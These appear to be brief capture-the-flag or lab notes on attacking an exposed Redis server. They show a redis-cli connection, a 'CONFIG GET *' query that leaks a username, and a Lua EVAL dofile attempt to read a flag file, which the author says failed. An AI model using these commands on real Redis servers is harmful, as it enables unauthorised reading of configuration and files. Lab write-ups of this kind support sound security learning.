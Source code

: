 ```bash
redis-cli -h 10.10.190.115 -p 6379
```


Leaked username
```bash
CONFIG GET *
```

![[Pasted image 20240127113739.png]]

username:`enterprise-security`


LUA sandbox escape

https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis
https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html

```bash
redis-cli -h 10.10.190.115 -p 6379 EVAL "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\user.txt')" 0
```

doesnt work for some reason
![[Pasted image 20240127115328.png]]

